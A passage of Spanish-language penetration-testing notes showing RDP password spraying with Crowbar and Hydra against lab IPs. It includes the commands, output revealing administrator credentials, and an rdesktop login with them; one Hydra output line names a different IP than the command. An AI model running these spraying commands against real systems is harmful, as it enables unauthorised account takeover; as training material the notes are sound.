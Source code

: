 ### Crowbar - RDP Password Spraying

```r
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

También podemos usar `Hydra` para realizar un ataque de Password Spraying RDP.

### Hydra - RDP Password Spraying

```r
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-25 21:44:52
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking rdp://192.168.2.147:3389/
[3389][rdp] host: 192.168.2.143   login: administrator   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-25 21:44:56
```

Podemos conectarnos por RDP al sistema objetivo utilizando el cliente `rdesktop` o el cliente `xfreerdp` con credenciales válidas.

### RDP Login

```r
rdesktop -u admin -p password123 192.168.2.143

Autoselecting keyboard map 'en-us' from locale

ATTENTION! The server uses an invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.
     Issuer: CN=WIN-Q8F2KTAI43A

Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate, the connection attempt will be aborted:

    Subject: CN=WIN-Q8F2KTAI43A
     Issuer: CN=WIN-Q8F2KTAI43A
 Valid From: Tue Aug 24 04:20:17 2021
         To: Wed Feb 23 03:20:17 2022

  Certificate fingerprints:

       sha1: cd43d32dc8e6b4d2804a59383e6ee06fefa6b12a
     sha256: f11c56744e0ac983ad69e1184a8249a48d0982eeb61ec302504d7ffb95ed6e57

Do you trust this certificate (yes/no)? yes
```